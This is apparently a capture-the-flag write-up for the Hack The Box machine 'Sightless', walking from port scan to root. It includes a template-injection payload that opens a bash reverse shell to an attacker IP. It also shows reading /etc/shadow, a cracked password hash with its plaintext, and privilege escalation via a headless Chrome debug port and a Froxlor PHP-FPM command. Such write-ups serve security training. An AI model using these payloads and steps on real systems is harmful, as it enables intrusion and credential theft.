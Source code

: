 # Sightless

<figure><img src="../../../.gitbook/assets/image (178).png" alt=""><figcaption></figcaption></figure>



## Port scan

```bash
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-08 07:24 IST
Nmap scan report for sightless.htb (10.129.93.120)
Host is up (0.20s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp
| fingerprint-strings: 
|   GenericLines: 
|     220 ProFTPD Server (sightless.htb FTP Server) [::ffff:10.129.93.120]
|     Invalid command: try being more creative
|_    Invalid command: try being more creative
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 c9:6e:3b:8f:c6:03:29:05:e5:a0:ca:00:90:c9:5c:52 (ECDSA)
|_  256 9b:de:3a:27:77:3b:1b:e1:19:5f:16:11:be:70:e0:56 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Sightless.htb
|_http-server-header: nginx/1.18.0 (Ubuntu)
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port21-TCP:V=7.94SVN%I=7%D=9/8%Time=66DD03EF%P=x86_64-pc-linux-gnu%r(Ge
SF:nericLines,A2,"220\x20ProFTPD\x20Server\x20\(sightless\.htb\x20FTP\x20S
SF:erver\)\x20\[::ffff:10\.129\.93\.120\]\r\n500\x20Invalid\x20command:\x2
SF:0try\x20being\x20more\x20creative\r\n500\x20Invalid\x20command:\x20try\
SF:x20being\x20more\x20creative\r\n");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 73.44 seconds
```

Adding `sightless.htb` in `/etc/hosts`

## Subdomain/vHost

Found another subdomain under webpage (ctrl+u : ctrl+f .htb)

{% embed url="http://sqlpad.sightless.htb/" %}

## Web vuln (RCE - Template injection)

After a quick google search, I found:

{% embed url="https://huntr.com/bounties/46630727-d923-4444-a421-537ecd63e7fb" %}

<figure><img src="../../../.gitbook/assets/image (177).png" alt=""><figcaption><p>After entering the payload, click on Test</p></figcaption></figure>

```bash
{{ process.mainModule.require( 'child_process' ). exec ( 'bash -c "bash -i >& /dev/tcp/10.10.16.63/4444 0>&1"' ) }} 
```

Root?

```bash
root@c184118df0a6:/var/lib/sqlpad# id
id
uid=0(root) gid=0(root) groups=0(root)
```

## User shell

We are in a docker container (ofc)

```bash
root@c184118df0a6:/var/lib/sqlpad# ls -la /
ls -la /
total 92
drwxr-xr-x   1 root root 4096 Sep 12 17:15 .
drwxr-xr-x   1 root root 4096 Sep 12 17:15 ..
-rwxr-xr-x   1 root root    0 Aug  2 09:30 .dockerenv
drwxr-xr-x   2 root root 4096 Feb 28  2022 bin
drwxr-xr-x   2 root root 4096 Oct  3  2021 boot
drwxr-xr-x   5 root root  340 Sep 12 15:59 dev
-rwxr-xr-x   1 root root  413 Mar 12  2022 docker-entrypoint
```

There's this .sqlite file in current directory `sqlpad.sqlite` which i tried in few ways to bring in my local machine I failed(if you know any way, please let me know on discord: heapbytes)

So just to see how many users are on system, i looked out in /etc/passwd file and found 3 users with shell (tty)

Since we are root, we can read `/etc/shadow`&#x20;

```bash
michael:$6$mG3Cp2VPGY.FDE8u$KVWVIHzqTzhOSYkzJIpFc2EsgmqvPa.q2Z9bLUU6tlBWaEwuxCDEP9UFHIXNUcF2rBnsaFYuJa6DUh/pL2IJD/:19860:0:99999:7:::
```

And we found a hash, let's try cracking it with john/hashcat

```bash
╰─➤  john --wordlist=/usr/share/wordlists/rockyou.txt user.micheal.hash 
Warning: detected hash type "sha512crypt", but the string is also recognized as "HMAC-SHA256"
Use the "--format=HMAC-SHA256" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 16 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
insaneclownposse (michael)     
1g 0:00:00:06 DONE (2024-09-12 23:10) 0.1562g/s 9280p/s 9280c/s 9280C/s Whitney..062699
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

Great, let's `ssh` into the box.

```bash
michael@sightless:~$ id
uid=1000(michael) gid=1000(michael) groups=1000(michael)
```

## Root shell

Since we aren't in sudoers' list, we can try with other recon.

I ran linpeas and saw something unusual

```bash
/opt/google/chrome/chrome --allow-pre-commit-input --disable-background-networking --disable-client-side-phishing-detection --disable-default-apps --disable-dev-shm-usage --disable-hang-monitor --disable-popup-blocking --disable-prompt-on-repost --disable-sync --enable-automation --enable-logging --headless --log-level=0 --no-first-run --no-sandbox --no-service-autorun --password-store=basic --remote-debugging-port=0 --test-type=webdriver --use-mock-keychain --user-data-dir=/tmp/.org.chromium.Chromium.GAeyhA data:,

/opt/google/chrome/chrome --type=renderer --headless --crashpad-handler-pid=1730 --no-sandbox --disable-dev-shm-usage --enable-automation --remote-debugging-port=0 --test-type=webdriver --allow-pre-commit-input --ozone-platform=headless --disable-gpu-compositing --lang=en-US --num-raster-threads=1 --renderer-client-id=5 --time-ticks-at-unix-epoch=-1726286845035690 --launc
```

There was this google chrome running in headless mode,&#x20;

Then I looked for ports that are opened internally with `netstat -tunlp`

There were few ports opened, which I port forwarded.\
Note: the `admin.sightless.htb` was running on port 8080 (domain found through linpeas results)

<figure><img src="../../../.gitbook/assets/image (170).png" alt=""><figcaption></figcaption></figure>

Since this was chrome headless mode, upon googling, you fill find this blog of `Google`\
After scrolling a bit we can see a debug feature,&#x20;

{% embed url="https://developer.chrome.com/docs/chromium/headless#debug" %}

Adding all the ports, (e.g 127.0.0.1:34931) in `Configure` we can see Froxlor, click on `inspect` .

<figure><img src="../../../.gitbook/assets/image (169).png" alt=""><figcaption></figcaption></figure>

It will show us details of app running, I tried with **cookie hijacking**, but the admin cookie usually changes here after each login. If we click on `Networks` tab, we can see the password in clear text since this is a HTTP website.

<figure><img src="../../../.gitbook/assets/image (171).png" alt=""><figcaption></figcaption></figure>

Login as `admin`

There are many features available, the one we are interested is `php-fpm`

```
PHP-FPM, or “PHP FastCGI Process Manager,” is an advanced, 
high-performance FastCGI process manager for PHP. 
It resolves the concurrency issue of PHP's built-in server by spawning multiple workers, 
which can handle multiple requests simultaneously
```

<figure><img src="../../../.gitbook/assets/image (173).png" alt=""><figcaption></figcaption></figure>

So we can create a new fpm version, so in `php-fpm restart command`, we can add our own custom command.

Once done, scroll and click save.

Later we can go in settings, and `re-enable` our php-fpm, \


1. Disable the option.
2. Click on Save
3. Enable the option.
4. Click on save

This will start all the `fpm` versions, and our custom command will run this time.

<figure><img src="../../../.gitbook/assets/image (176).png" alt=""><figcaption></figcaption></figure>

Done. We are now root.

<figure><img src="../../../.gitbook/assets/image (175).png" alt=""><figcaption></figcaption></figure>

\_\_\_\_\_\_\_\_heapbytes' still pwning.

